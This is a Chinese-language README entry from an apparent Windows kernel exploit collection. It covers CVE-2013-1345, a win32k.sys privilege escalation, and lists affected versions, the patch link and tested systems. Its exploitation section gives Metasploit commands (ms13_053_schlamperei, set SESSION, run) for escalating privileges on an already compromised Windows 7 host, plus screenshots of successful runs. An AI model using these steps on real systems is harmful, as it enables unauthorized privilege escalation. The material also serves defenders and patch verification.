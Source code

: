 ### CVE-2013-1345

#### 描述

win32k.sys in the kernel-mode drivers in Microsoft Windows XP SP2 and SP3, Windows Server 2003 SP2, Windows Vista SP2, Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8, Windows Server 2012, and Windows RT does not properly handle objects in memory, which allows local users to gain privileges via a crafted application, aka "Win32k Vulnerability."

#### 影响版本

| Product             | Version | Update | Edition | Tested             |
| ------------------- | ------- | ------ | ------- | ------------------ |
| Windows 7           |         | SP1    | X64     |                    |
| Windows 7           |         | SP1    | X86     | :heavy_check_mark: |
| Windows 8           | -       | -      | X64     |                    |
| Windows 8           | -       | -      | X86     |                    |
| Windows Rt          | -       |        |         |                    |
| Windows Server 2003 |         | SP2    |         |                    |
| Windows Server 2003 |         | SP2    | Itanium |                    |
| Windows Server 2003 |         | SP2    | X64     |                    |
| Windows Server 2008 |         | SP2    | Itanium |                    |
| Windows Server 2008 |         | SP2    | X64     |                    |
| Windows Server 2008 |         | SP2    | X86     | :heavy_check_mark: |
| Windows Server 2008 | R2      | SP1    | Itanium | :heavy_check_mark: |
| Windows Server 2008 | R2      | SP1    | X64     |                    |
| Windows Server 2012 | -       |        |         |                    |
| Windows Vista       |         | SP2    |         |                    |
| Windows Vista       |         | SP2    | X64     |                    |
| Windows Xp          | -       | SP2    | X64     |                    |
| Windows Xp          |         | SP3    |         |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2013-1345
```

#### 利用方式

> X86利用

测试系统windows 7 sp1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win7_x86.png?raw=true)

Windows sever 2003 sp2 x86 和Windows sever 2003 R2 sp2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows sever 2003 sp2 x86 动图如下

![17](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86.gif?raw=true)

Windows sever 2003 R2 sp2 x86 动图如下

![18](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86_2.gif?raw=true)

